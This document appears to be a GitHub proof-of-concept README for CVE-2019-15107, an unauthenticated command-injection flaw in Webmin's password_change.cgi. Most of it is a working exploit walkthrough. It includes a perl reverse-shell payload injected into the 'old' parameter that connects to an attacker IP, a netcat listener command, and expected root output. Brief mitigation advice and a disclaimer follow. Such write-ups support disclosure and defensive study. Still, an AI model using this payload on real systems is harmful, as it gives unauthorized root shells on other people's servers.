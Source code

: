 # Proof of Concept: CVE-2019-15107 - Webmin Remote Code Execution (RCE)

## Overview

This Proof of Concept (PoC) demonstrates the exploitation of a critical vulnerability in Webmin (versions 1.882 to 1.921), identified as **CVE-2019-15107**. The vulnerability allows an unauthenticated remote attacker to execute arbitrary commands on the target system due to improper input validation in the **password_change.cgi** script.

- **CVE**: [CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)
- **Severity**: Critical
- **Platform**: Linux/Unix
- **Vulnerability Type**: Remote Code Execution (RCE)
- **Affected Versions**: Webmin 1.882 to 1.921
- **Patched Version**: Webmin 1.930

## Vulnerability Details

The vulnerability exists in the `password_change.cgi` script, where improper sanitization of the `old` parameter allows an attacker to inject arbitrary commands using the vertical bar (`|`) character, leading to remote command execution.

## Exploitation

### Tools Required:
- Burp Suite or another HTTP interceptor
- Netcat for reverse shell listener

### Steps to Exploit:

1. **Intercept the Request**: 
   Use Burp Suite to intercept the HTTP request made to the `password_change.cgi` script when attempting to change a password on the Webmin server.

2. **Modify the `old` Parameter**: 
   Inject a malicious payload into the `old` parameter of the intercepted request. For this PoC, we will inject a reverse shell payload:

  ```bash
   old=some_password|perl -e 'use Socket;$i="192.168.1.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 ```

3. **Send the Modified Request**: 
   Send the HTTP request with the malicious payload to the Webmin server via Burp Suite.

   **Burp Suite Command Injection Example:**
   
   ![Burp Suite Command Injection](path_to_burpsuite_image.png)

4. **Set Up a Netcat Listener**: 
   Before sending the payload, set up a Netcat listener on your machine to catch the reverse shell connection. Run the following command on your attacker machine:

```bash   
nc -lvnp 443
```

5. **Receive the Reverse Shell**: 
   After sending the modified request, if the exploit is successful, you should receive a reverse shell connection on your Netcat listener, granting you root-level access to the Webmin server.

   **Reverse Shell with Root Example:**
   
   ![Reverse Shell with Root](path_to_reverse_shell_image.png)

## Proof of Exploit

Once the reverse shell is established, you can verify the success of the exploit by running the following command on the compromised system:

```bash
id
```
Expected output:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

This confirms that you have successfully gained root privileges on the target machine.

## Mitigation

To mitigate this vulnerability, users should immediately update to Webmin version **1.930**, where this issue has been patched. In addition, the following steps can further secure Webmin installations:

- Enforce strict input validation and sanitization on all user inputs to prevent command injection.
- Ensure Webmin is not exposed to the public internet or is protected by strong network security measures such as a firewall or VPN.
- Regularly update Webmin and apply security patches promptly.

## References

- [CVE-2019-15107 on Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)
- [Webmin Release Notes](http://www.webmin.com/changes.html)
- [Exploit-DB Entry](https://www.exploit-db.com/exploits/47293)

---

**Disclaimer**: This PoC is intended for educational and research purposes only.

